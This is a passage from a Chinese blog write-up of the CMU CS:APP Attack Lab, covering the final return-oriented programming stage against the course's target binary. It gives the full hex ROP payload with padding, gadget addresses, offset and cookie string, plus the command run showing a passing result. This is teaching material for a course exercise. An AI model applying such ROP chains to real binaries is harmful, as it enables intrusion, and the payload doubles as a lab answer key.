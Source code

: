 最后来决定 _offset_ 的值，通过计算在字符串内容之前插入的 _gadget_ 和其他的内容的行数，可以算出在 10 进制下是 9\*8 = 72，在 16 进制下则为 48。

最终写入的 txt 文本为

```js
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
20 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

```shell
./hex2raw -i rtarget.3.txt | ./rtarget -q

Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
```

## 0x3 Conclusion

通过完成 attack lab，相当于自己去走一遍黑客攻击的流程，之前一直对黑客是如何攻击的并不清楚，而且也比较好奇，这个 lab 虽然简单，却通过两种攻击方式的演示详细地揭示了这个过程，而且通过自己动手做实验，更清楚了其中的流程，算是解答了之前关于黑客攻击的一些疑惑。

另外这个实验虽然是一个攻击实验，但是却给了我们一些启发，了解敌人的攻击方式之后可以更好地为防御他们做准备。同时通过这个实验，再一次巩固了汇编的内容，加深了栈帧的理解，对程序调用，压栈和退站有了更好的理解。

## 0x4 Reference

- [recitation05-attacklab.pptx (cmu.edu)](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f21/www/recitations/rec05_slides.pdf)
- [attacklab.pdf (cmu.edu)](http://csapp.cs.cmu.edu/3e/attacklab.pdf)
- [《深入理解计算机系统》Attack Lab 实验解析 Yi's Blog (earthaa.github.io)](https://earthaa.github.io/2020/02/11/CSAPP-Attacklab/)
- [《深入理解计算机系统》实验 3.Attack Lab 贺巩山的博客 (hegongshan.com)](https://www.hegongshan.com/2021/06/02/csapp-3-attack-lab/)
